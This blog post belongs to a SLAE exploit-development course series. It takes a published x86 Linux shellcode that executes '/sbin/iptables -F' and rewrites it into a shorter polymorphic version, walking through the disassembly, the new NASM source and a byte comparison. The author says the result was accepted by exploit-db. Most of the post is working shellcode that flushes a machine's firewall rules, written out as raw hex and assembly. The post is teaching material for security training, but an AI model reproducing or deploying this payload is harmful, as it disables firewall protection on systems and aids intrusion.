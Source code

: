 ```yaml
---
layout: post
title: SLAE 6.2 - Shell-Storm Polymorphism - iptables -F
date:   2019-03-05
categories: [SLAE, Assembly]
---
```

The version that I created from this post was submitted to and accepted by exploit-db.com.  The URL is:
[iptables -f shellcode](https://www.exploit-db.com/shellcodes/46491)


The 2nd piece of shellcode we will try to create a polymorphic version of will be:
[http://shell-storm.org/shellcode/files/shellcode-361.php](http://shell-storm.org/shellcode/files/shellcode-361.php)

The original length is 58 bytes, meaning we have up to 87 bytes maximum to fit in to the exam requirements (no more than 150%).

Let's take a look at the original shellcode and put it through ndisasm just to be sure it does what it claims.
```
jmp	short	callme
main:
	pop	esi
	xor	eax,eax
	mov byte [esi+14],al
	mov byte [esi+17],al
	mov long [esi+18],esi
	lea	 ebx,[esi+15]
	mov long [esi+22],ebx
	mov long [esi+26],eax
	mov 	al,0x0b
	mov	ebx,esi
	lea	ecx,[esi+18]
	lea	edx,[esi+26]
	int	0x80
	

callme:
	call	main
	db '/sbin/iptables#-F#'
```
```
echo -ne '\xeb\x21\x5e\x31\xc0\x88\x46\x0e\x88\x46\x11\x89\x76\x12\x8d\x5e\x0f\x89\x5e\x16\x89\x46\x1a\xb0\x0b\x89\xf3\x8d\x4e\x12\x8d\x56\x1a\xcd\x80\xe8\xda\xff\xff\xff\x2f\x73\x62\x69\x6e\x2f\x69\x70\x74\x61\x62\x6c\x65\x73\x23\x2d\x46\x23' | ndisasm -u -
00000000  EB21              jmp short 0x23
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  88460E            mov [esi+0xe],al
00000008  884611            mov [esi+0x11],al
0000000B  897612            mov [esi+0x12],esi
0000000E  8D5E0F            lea ebx,[esi+0xf]
00000011  895E16            mov [esi+0x16],ebx
00000014  89461A            mov [esi+0x1a],eax
00000017  B00B              mov al,0xb
00000019  89F3              mov ebx,esi
0000001B  8D4E12            lea ecx,[esi+0x12]
0000001E  8D561A            lea edx,[esi+0x1a]
00000021  CD80              int 0x80
00000023  E8DAFFFFFF        call dword 0x2
00000028  2F                das
00000029  7362              jnc 0x8d
0000002B  696E2F69707461    imul ebp,[esi+0x2f],dword 0x61747069
00000032  626C6573          bound ebp,[ebp+0x73]
00000036  23                db 0x23
00000037  2D                db 0x2d
00000038  46                inc esi
00000039  23                db 0x23

```
There is a jump-call-pop to get the string that is used. The #'s are replaced with nulls.  It looks like the strings are then copied to a location after the first string for the args struct as well.  Let's start working on a polymorphic version.

It looks like we can greatly reduce this shellcode if we get rid of all the mov's that copy the string to another location.  We can then just use our already saved reference to the string.

We can use the same technique to store the iptables string in the proper register, jmp-call-pop into EBX.
Then we can zero out EDX with cdq and move a null byte into the '#' location.
```nasm
global _start

section .text

_start:
  jmp short get
code:
  pop ebx
  cdq
  mov [ebx+0xe], dl
get:
  call code
  file: db "/sbin/iptables#-F"
```
Next, we set up the args struct.  The original shellcode copies the string to a location after the original and loads its address to ECX.  It then loads the address of an already used NULL byte in to EDX.
We can just skip all these steps and use our original string.  I will push the addresses to the stack, then move the stack pointer in to the ecx register.  Our edx is already 0'd out from earlier as well.

This is using the same strategy that a normal stack based execve call would use combined with the jmp-call-pop string.  Since we already have addresses stored in registers, it makes sense to do this and greatly reduces our shellcode length.

Also note that in the string variable 'file' above, that we have removed the second '#'.  Our strategy pushes a null byte to the stack before the string address instead of replacing another '#' with a null.  Our code is currently as follows:
```nasm
lea eax, [ebx+0xf]  ; get address of '-F'
push edx            ; null terminate the struct
push eax            ; push -F
push ebx            ; push /sbin/iptables
mov ecx, esp        ; address stored as argument
```
The last steps are to move 0xb into EAX and interrupt (int 0x80).  We can use EDX since it is already null to mov into EAX just for a little variation.  Then mov 0xb into AL and make our syscall.
```nasm
mov eax, edx
mov al, 0xb
int 0x80
```
Let's build it and run it.  The objdump seems to be missing a few bytes in the string from /sbin/iptables.   I decided to manually insert the 'sb' from sbin and the 'a' from iptables, then it worked as expected.  This may have been an issue with the objdump command that I was using from the course video.  This is mentioned in one of the videos and quickly touches on why it happens.  It was mentioned that one of the cut command options can cause problems if the dump has large combinations of opcodes in 1 line.  I went ahead and inserted the bytes on my own but may go back to see if changing the command a bit will get it to work at another time.

The final product has reduced the shellcode by 26%! Let's compare the shellcode side by side.
```nasm
jmp short 0x23                                jmp short 0x15
pop esi                                       pop ebx
xor eax,eax                                   cdq
mov [esi+0xe],al                              mov [ebx+0xe], dl
mov [esi+0x11],al                             lea eax, [ebx+0xf]
mov [esi+0x12],esi                            push edx
lea ebx,[esi+0xf]                             push eax
mov [esi+0x16],ebx                            push ebx
mov [esi+0x1a],eax                            mov ecx, esp
mov al,0xb                                    mov eax, edx
                                              mov al, 0xb
mov ebx,esi                                   
lea ecx,[esi+0x12]                            
lea edx,[esi+0x1a]
int 0x80                                      int 0x80
call dword 0x2                                call dword 0x2
das                                           das
jnc 0x8d                                      jnc 0x7f
imul ebp,[esi+0x2f],dword 0x61747069          imul ebp,[esi+0x2f],dword 0x61747069
bound ebp,[ebp+0x73]                          bound ebp,[ebp+0x73]
db 0x23                                       db 0x23
db 0x2d                                       db 0x2d
inc esi                                       inc esi
db 0x23
```

With the big reduction in size, I decided to check on exploit-db for any similar shellcode with equal or shorter length.  It turns out that there is only 1 other shellcode that was on there with the same length (none shorter).  The already published shellcode uses a full stack approach so I submitted the shellcode in the hopes that it will get accepted, which it did!  The link is above at the top of this post.
